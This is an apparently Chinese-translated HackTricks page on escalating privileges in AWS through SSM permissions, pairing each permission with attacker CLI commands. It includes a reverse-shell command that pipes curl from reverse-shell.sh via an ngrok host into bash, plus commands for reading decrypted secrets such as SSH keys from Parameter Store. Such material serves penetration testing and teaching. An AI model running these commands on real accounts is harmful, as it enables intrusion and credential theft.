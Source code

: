 # AWS - SSM Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## SSM

有关 SSM 的更多信息，请查看：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

具有权限 **`ssm:SendCommand`** 的攻击者可以 **在运行 Amazon SSM Agent 的实例中执行命令** 并 **危害其中运行的 IAM 角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
在您使用此技术在已被攻陷的 EC2 实例中提升权限的情况下，您可以通过以下方式在本地捕获 rev shell：
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在影响：** 直接提升权限到附加在运行实例上的 EC2 IAM 角色，这些实例运行着 SSM Agents。

### `ssm:StartSession`

拥有权限 **`ssm:StartSession`** 的攻击者可以 **在运行 Amazon SSM Agent 的实例中启动类似 SSH 的会话**，并 **危害其中运行的 IAM 角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
要开始会话，您需要安装 **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在影响：** 直接提升权限到附加到运行实例的 EC2 IAM 角色，这些实例运行着 SSM 代理。

#### 提升权限到 ECS

当 **ECS 任务** 以 **`ExecuteCommand` 启用** 运行时，具有足够权限的用户可以使用 `ecs execute-command` 在容器内 **执行命令**。\
根据 [**文档**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)，这是通过在您用来启动“_exec_”命令的设备与目标容器之间创建安全通道来完成的，使用 SSM 会话管理器。（SSM 会话管理器插件是实现此功能所必需的）\
因此，具有 `ssm:StartSession` 权限的用户将能够通过运行以下命令 **在启用该选项的 ECS 任务中获取 shell**：
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在影响：** 直接提升权限到附加到运行任务的 `ECS` IAM 角色，且该任务启用了 `ExecuteCommand`。

### `ssm:ResumeSession`

拥有权限 **`ssm:ResumeSession`** 的攻击者可以在运行 Amazon SSM Agent 的实例中重新**启动 SSH 类会话**，该会话处于**断开**的 SSM 会话状态，并**危害其中运行的 IAM 角色**。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在影响：** 直接提升权限到附加到运行实例的 EC2 IAM 角色，这些实例运行着 SSM Agents 并且有断开的会话。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

拥有上述权限的攻击者将能够列出 **SSM 参数** 并 **以明文读取它们**。在这些参数中，您经常可以 **找到敏感信息**，例如 SSH 密钥或 API 密钥。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在影响：** 在参数中找到敏感信息。

### `ssm:ListCommands`

拥有此权限的攻击者可以列出所有发送的 **命令**，并希望在其中找到 **敏感信息**。
```
aws ssm list-commands
```
**潜在影响：** 在命令行中查找敏感信息。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

拥有这些权限的攻击者可以列出所有发送的 **命令** 并 **读取生成的输出**，希望能找到 **敏感信息**。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在影响：** 在命令行输出中查找敏感信息。

### Codebuild

您还可以使用 SSM 进入正在构建的 codebuild 项目：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
